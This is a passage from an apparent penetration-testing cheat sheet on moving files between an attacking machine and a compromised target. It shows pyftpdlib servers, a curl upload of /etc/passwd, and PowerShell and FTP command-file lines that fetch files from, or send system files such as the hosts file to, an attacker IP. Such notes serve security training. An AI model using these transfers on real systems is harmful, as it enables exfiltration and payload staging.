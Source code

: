 - We might need to remove nginx default config if port 80 is busy `sudo rm /etc/nginx/sites-enabled/default`

- Upload file with cURL `curl -T /etc/passwd http://localhost:9001/SecretUploadDirectory/users.txt`

## FTP

### From attack machine to target

#### Attacking machine

- `sudo pip3 install pyftpdlib`
- `python3 -m pyftpdlib -p 21 --write` this is as anonymous
- `python3 -m pyftpdlib -p 21 --write -u username -P password` we can specify a username and password

#### Target machine

- `ftp IP-OF-ATTACKING-MACHINE` we can then use `get filename` to get the file
- `(New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'ftp-file.txt')` with powershell
- Create a Command File for the FTP Client and Download the Target File

```dos
echo open 192.168.49.128 > ftpcommand.txt
echo USER anonymous >> ftpcommand.txt
echo binary >> ftpcommand.txt
echo GET file.txt >> ftpcommand.txt
echo bye >> ftpcommand.txt
ftp -v -n -s:ftpcommand.txt
```

### From Target to attack

#### Attacking machine

- `python3 -m pyftpdlib -p 21 --write`

#### Target machine

- `ftp IP-OF-ATTACKING-MACHINE` we can then use `put filename` to send the file
- `curl --user anonymous:anonymous -o docker-toolbox.exe ftp://10.10.10.236/docker-toolbox.exe`
- `(New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')` with powershell
- Create a Command File for the FTP Client to Upload a File

```dos
echo open 192.168.49.128 > ftpcommand.txt
echo USER anonymous >> ftpcommand.txt
echo binary >> ftpcommand.txt
echo PUT c:\windows\system32\drivers\etc\hosts >> ftpcommand.txt
echo bye >> ftpcommand.txt
ftp -v -n -s:ftpcommand.txt
```
